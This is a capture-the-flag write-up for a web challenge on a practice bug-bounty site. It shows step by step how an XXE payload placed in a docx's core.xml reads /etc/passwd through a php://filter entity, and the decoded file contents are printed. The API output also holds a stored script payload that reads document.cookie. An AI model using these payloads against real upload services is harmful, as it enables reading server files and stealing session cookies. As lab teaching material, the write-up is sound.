

# Document with secrets
Category: Web

## Description
> Part 6 of Imperva's challenge
> 
> To be a good web application penetration tester, you need to notice the small things? What can go wrong when a file is uploaded?
> 

## Solution

The [previous challenge](Bleeding_cloud.md)'s flag has left us with a hint: `docx_are_xml_too_flag6_in_passwd`.

The bug bounty management system offers the ability to upload a report:



After clicking the button, a form pops up and allows uploading a file. According to the UI, only `*.docx` files are allowed.

When the report is displayed in the UI, the author name is displayed next to the document name:

```javascript
function populateTable(data) {
    // $('#bugsTable').bootstrapTable({
    //     data: datadata
    // });
    for (var i = 0; i < data.length; i++) {
        var bugDetails = data[i].details
        var pattern = /((http|https|ftp):\/\/)/;
        if(pattern.test(bugDetails)) {
            let docURL = bugDetails.substring(0, bugDetails.lastIndexOf('|'))
            let docName = bugDetails.substring(bugDetails.lastIndexOf('/')+1, bugDetails.lastIndexOf('|'))
            let creator = bugDetails.substring(bugDetails.lastIndexOf('|')+1, bugDetails.length)
            bugDetails = `<a href=${docURL}>${docName}</a> by ${creator}`
        }
        var row = $('<tr><td class="align-middle">' + data[i].category + '</td><td class="align-middle">' + data[i].company + '</td><td class="align-middle">' + bugDetails + '</td></tr>');
        $('#bugsTable').append(row);
    }
}
```

This information is retrieved from the server side:
```console
root@kali:/media/sf_CTFs/technion/Document_with_secrets# curl 'http://www.vulnet.zone/api/bugs/getBugs.php'   -H 'Connection: keep-alive'   -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'   -H 'Content-Type: text/plain;charset=UTF-8'   -H 'Accept: */*'   -H 'Origin: http://www.vulnet.zone'   -H 'Referer: http://www.vulnet.zone/welcome.php'   -H 'Accept-Language: en-US,en;q=0.9,he;q=0.8'   -H 'Cookie: cookies_here'   --data-binary '{"id":"320"}'   --compressed   --insecure
{"status":"succeeded","data":[{"category":"Open this select menu","company":"<script>document.getElementById(\"bugsTable\").rows[1].cells[1].innerHTML = document.cookie; <\/script>","details":""},{"category":"Open this select menu","company":"Fake Company","details":"http:\/\/www.vulnet.zone:80\/uploads\/test.docx|Fake Author"}]}
```

The hint says that `*.docx` files essentially contain XML files (a `docx` file is just a `zip` file with a different extension and some predefined internal files, some of them are XMLs). It also says that the flag is in `/etc/passwd`. So, it sounds like we should perform some kind of XXE injection to retrieve the flag. Fortunately, [Payload all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings) has some [recipes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-docx-file) for that too.

Let's take a random `docx` file:

```console
root@kali:/media/sf_CTFs/technion/Document_with_secrets/attack# file xxe.docx
xxe.docx: Microsoft Word 2007+
root@kali:/media/sf_CTFs/technion/Document_with_secrets/attack# exiftool xxe.docx | grep Creator
Creator                         : Fake Author
```

This document was created by "Fake Author". Now lets see if we can find out where this data is stored within the `docx` file:

```console
root@kali:/media/sf_CTFs/technion/Document_with_secrets/attack# unzip xxe.docx
Archive:  xxe.docx
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: word/document.xml
  inflating: word/_rels/document.xml.rels
  inflating: word/theme/theme1.xml
  inflating: docProps/thumbnail.emf
  inflating: word/settings.xml
  inflating: word/styles.xml
  inflating: word/webSettings.xml
  inflating: word/fontTable.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml
root@kali:/media/sf_CTFs/technion/Document_with_secrets/attack# grep -rnw "Fake Author"
docProps/core.xml:2:<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dc:title></dc:title><dc:subject></dc:subject><dc:creator>Fake Author</dc:creator><cp:keywords></cp:keywords><dc:description></dc:description><cp:lastModifiedBy>Owner</cp:lastModifiedBy><cp:revision>9</cp:revision><dcterms:created xsi:type="dcterms:W3CDTF">2020-12-15T20:47:00Z</dcterms:created><dcterms:modified xsi:type="dcterms:W3CDTF">2020-12-18T19:23:00Z</dcterms:modified></cp:coreProperties>
```

As expected, it's in an XML file. Let's modify the file to perform the XXE attack:
```console
root@kali:/media/sf_CTFs/technion/Document_with_secrets/attack# cat docProps/core.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dc:title></dc:title><dc:subject></dc:subject><dc:creator>&xxe;</dc:creator><cp:keywords></cp:keywords><dc:description></dc:description><cp:lastModifiedBy>Owner</cp:lastModifiedBy><cp:revision>9</cp:revision><dcterms:created xsi:type="dcterms:W3CDTF">2020-12-15T20:47:00Z</dcterms:created><dcterms:modified xsi:type="dcterms:W3CDTF">2020-12-18T19:23:00Z</dcterms:modified></cp:coreProperties>
```

What we're doing here is telling the XML parser to look up the `creator` in an external entity which base64-encodes `/etc/passwd`. The encoded content of the file will be inserted into the `creator` field.

We update the file in the `docx` archive:
```console
root@kali:/media/sf_CTFs/technion/Document_with_secrets/attack# zip -u xxe.docx docProps/core.xml
updating: docProps/core.xml (deflated 47%)
```

And upload it to the website.


When we request the data again, we get:

```console
root@kali:/media/sf_CTFs/technion/Document_with_secrets/attack# curl 'http://www.vulnet.zone/api/bugs/getBugs.php'   -H 'Connection: keep-alive'   -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'   -H 'Content-Type: text/plain;charset=UTF-8'   -H 'Accept: */*'   -H 'Origin: http://www.vulnet.zone'   -H 'Referer: http://www.vulnet.zone/welcome.php'   -H 'Accept-Language: en-US,en;q=0.9,he;q=0.8'   -H 'Cookie: cookies_here'   --data-binary '{"id":"320"}'   --compressed   --insecure
{"status":"succeeded","data":[{"category":"Open this select menu","company":"<script>document.getElementById(\"bugsTable\").rows[1].cells[1].innerHTML = document.cookie; <\/script>","details":""},{"category":"Open this select menu","company":"Fake Company","details":"http:\/\/www.vulnet.zone:80\/uploads\/test.docx|Fake Author"},{"category":"Open this select menu","company":"","details":"http:\/\/www.vulnet.zone:80\/uploads\/xxe.docx|cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMDoxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMToxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC10aW1lc3luYzp4OjEwMjoxMDQ6c3lzdGVtZCBUaW1lIFN5bmNocm9uaXphdGlvbiwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDY6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXNsb2c6eDoxMDQ6MTEwOjovaG9tZS9zeXNsb2c6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwNTo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnRzczp4OjEwNjoxMTE6VFBNIHNvZnR3YXJlIHN0YWNrLCwsOi92YXIvbGliL3RwbTovYmluL2ZhbHNlCnV1aWRkOng6MTA3OjExMjo6L3J1bi91dWlkZDovdXNyL3NiaW4vbm9sb2dpbgp0Y3BkdW1wOng6MTA4OjExMzo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnNzaGQ6eDoxMDk6NjU1MzQ6Oi9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgpsYW5kc2NhcGU6eDoxMTA6MTE1OjovdmFyL2xpYi9sYW5kc2NhcGU6L3Vzci9zYmluL25vbG9naW4KcG9sbGluYXRlOng6MTExOjE6Oi92YXIvY2FjaGUvcG9sbGluYXRlOi9iaW4vZmFsc2UKZWMyLWluc3RhbmNlLWNvbm5lY3Q6eDoxMTI6NjU1MzQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk5Ojk5OTpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KdWJ1bnR1Ong6MTAwMDoxMDAwOlVidW50dTovaG9tZS91YnVudHU6L2Jpbi9iYXNoCmx4ZDp4Ojk5ODoxMDA6Oi92YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCmZsYWc2Ong6MTAwMToxMDAxOmNzdGVjaG5pb257eW91X3JvY2tfdGhpc19pc190aGVfZW5kfTovaG9tZS9mbGFnNjovYmluL3NoCg=="}]}
```

The `flag6` has the flag:

```console
root@kali:/media/sf_CTFs/technion/Document_with_secrets/attack# echo cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMDoxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMToxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC10aW1lc3luYzp4OjEwMjoxMDQ6c3lzdGVtZCBUaW1lIFN5bmNocm9uaXphdGlvbiwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDY6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXNsb2c6eDoxMDQ6MTEwOjovaG9tZS9zeXNsb2c6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwNTo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnRzczp4OjEwNjoxMTE6VFBNIHNvZnR3YXJlIHN0YWNrLCwsOi92YXIvbGliL3RwbTovYmluL2ZhbHNlCnV1aWRkOng6MTA3OjExMjo6L3J1bi91dWlkZDovdXNyL3NiaW4vbm9sb2dpbgp0Y3BkdW1wOng6MTA4OjExMzo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnNzaGQ6eDoxMDk6NjU1MzQ6Oi9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgpsYW5kc2NhcGU6eDoxMTA6MTE1OjovdmFyL2xpYi9sYW5kc2NhcGU6L3Vzci9zYmluL25vbG9naW4KcG9sbGluYXRlOng6MTExOjE6Oi92YXIvY2FjaGUvcG9sbGluYXRlOi9iaW4vZmFsc2UKZWMyLWluc3RhbmNlLWNvbm5lY3Q6eDoxMTI6NjU1MzQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk5Ojk5OTpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KdWJ1bnR1Ong6MTAwMDoxMDAwOlVidW50dTovaG9tZS91YnVudHU6L2Jpbi9iYXNoCmx4ZDp4Ojk5ODoxMDA6Oi92YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCmZsYWc2Ong6MTAwMToxMDAxOmNzdGVjaG5pb257eW91X3JvY2tfdGhpc19pc190aGVfZW5kfTovaG9tZS9mbGFnNjovYmluL3NoCg== | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
flag6:x:1001:1001:cstechnion{you_rock_this_is_the_end}:/home/flag6:/bin/sh
```

The flag: `cstechnion{you_rock_this_is_the_end}`.